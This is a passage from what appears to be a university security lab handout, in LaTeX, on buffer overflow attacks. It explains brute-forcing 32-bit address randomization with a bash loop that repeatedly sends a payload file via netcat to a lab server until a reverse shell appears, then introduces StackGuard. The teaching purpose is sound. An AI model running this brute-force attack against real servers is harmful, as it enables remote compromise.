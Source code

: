 \paragraph{Defeating the 32-bit randomization.}
It was reported that on 32-bit Linux machines, only 19 bites can be used 
for address randomization.
That is not enough, and we can easily hit the target 
if we run the attack for sufficient number of times. For 64-bit 
machines, the number of bits used for randomization is 
significantly increased. 

In this task, we will give it a try on the 32-bit Level 1 server. 
We use the brute-force approach to attack the server repeatedly, hoping that 
the address we put in our payload can eventually be correct. 
We will use the payload from the Level-1 attack. 
You can use the following shell script to run the vulnerable program in an infinite loop. 
If you get a reverse shell, the script will stop; otherwise, it will keep running. 
If you are not so unlucky, you should be able to get a reverse shell within 10 minutes. 


\begin{lstlisting}[language=bash]
#!/bin/bash

SECONDS=0
value=0
while true; do
  value=$(( $value + 1 ))
  duration=$SECONDS
  min=$(($duration / 60))
  sec=$(($duration % 60))
  echo "$min minutes and $sec seconds elapsed."
  echo "The program has been running $value times so far."
  cat badfile | nc 10.9.0.5 9090
done
\end{lstlisting}



\section{Tarea 7: Experimentando con otras Contramedidas}

\subsection{Tarea 7.a: Activando StackGuard}

Many compiler, such as \texttt{gcc}, implements a security mechanism called
\textit{StackGuard} to prevent buffer overflows. In the presence of this
protection, buffer overflow attacks will not work.
The provided vulnerable programs were compiled without 
enabling the StackGuard protection.
In this task, we will turn it on and see what will happen.


